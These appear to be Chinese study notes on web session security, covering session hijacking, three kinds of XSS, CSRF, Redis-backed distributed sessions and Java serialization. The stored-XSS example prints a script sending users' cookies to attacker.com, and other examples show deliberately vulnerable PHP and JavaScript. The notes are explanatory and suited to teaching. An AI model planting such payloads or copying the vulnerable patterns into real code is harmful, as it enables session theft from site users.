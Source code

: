 1. **会话安全性**

- 会话劫持和防御

攻击行为或攻击趋势取决于攻击者对您的会话 cookie 的了解它也被称为cookie劫持。攻击可以通过单击包含准备会话 ID 的恶意链接来窃取用户的会话 cookie 来完成。

- 跨站脚本攻击（XSS）和防御



- **存储型XSS（Stored XSS）**

  存储型XSS是指攻击者将恶意脚本存储在服务器的数据库或其他持久化存储中。当其他用户访问包含这些恶意脚本的页面时，脚本会被执行。

  **案例：**
  在一个博客系统中，攻击者在评论中插入恶意脚本：
  ```html
  <script>fetch('http://attacker.com/steal?cookie=' + document.cookie);</script>
  ```
  当其他用户查看该评论时，恶意脚本会窃取他们的Cookie信息。

2. **反射型XSS（Reflected XSS）**

   反射型XSS是指恶意脚本通过URL参数或表单提交传递给服务器，服务器将其反射回用户的浏览器并执行。通常，这种攻击需要诱使用户点击特制的链接。

   **案例：**
   在一个搜索功能的实现中，未对用户输入进行过滤：
   ```php
   <?php echo $_GET['search']; ?>
   ```
   攻击者构造恶意链接：
   ```html
   http://example.com/search.php?search=<script>alert('XSS');</script>
   ```
   用户点击该链接后，浏览器会执行恶意脚本。

3. **基于DOM的XSS（DOM-based XSS）**

   基于DOM的XSS是指恶意脚本通过修改网页的DOM结构在客户端执行，而不经过服务器的处理。攻击者利用JavaScript操作DOM对象，诱使用户执行恶意代码。

   **案例：**
   在一个应用中，开发者直接使用用户输入修改DOM：
   
   ```javascript
   document.getElementById('output').innerHTML = location.hash;
   ```
   攻击者构造恶意链接：
   ```html
   http://example.com/#<script>alert('XSS');</script>
   ```

- 跨站请求伪造（CSRF）和防御

  CSRF，跨站请求伪造，英文全称为 Cross-site request forgery。也可称为 XSRF。

  CSRF 攻击 **利用的是用户对浏览器的信任**。

  当我们成功登录一个网站时，其实浏览器在这个网站域名下保存好了 **登录凭证**，通常通过 cookies 保存。

  登录后，我们的在当前域名下发起请求就会带上 cookie，服务器就通过它来确定你对应哪个用户，允许你去执行一些涉及到个人隐私的操作。

  浏览器的一个机制：访问了一个 url，会带上对应域名的 Cookies，这就给了 CSRF 可乘之机。

  利用 CSRF，**攻击者可以欺骗浏览器，让你用特定网站的账号，发送一些请求**（比如转账）。

   2.**分布式会话管理**

- 分布式环境下的会话同步问题

  使用分布式缓存系统，如Redis，来同步会话状态

 使用Spring Session与Redis（配置示例）：

```java
// 在Spring Boot的application.properties中配置
spring.session.store-type=redis
spring.redis.host=localhost
spring.redis.port=6379
```

- Session集群解决方案

通过使用负载均衡器和Session亲和性（Sticky Sessions）来保持用户会话在同一个服务器节点。

- 使用Redis等缓存技术实现分布式会话

将Session存储在Redis中，可以提高性能并实现会话状态的分布式存储。

   3.**会话状态的序列化和反序列化**

- 会话状态的序列化和反序列化

序列化是将对象转换为字节流的过程，反序列化则是将字节流恢复为对象。

- 为什么需要序列化会话状态

序列化允许会话状态在不同的计算机环境中进行数据交换，以及持久化对象状态到磁盘上。

- Java对象序列化

实现Serializable接口的类可以被序列化和反序列化。

- 自定义序列化策略

通过定义writeObject和readObject方法来实现自定义序列化策略。



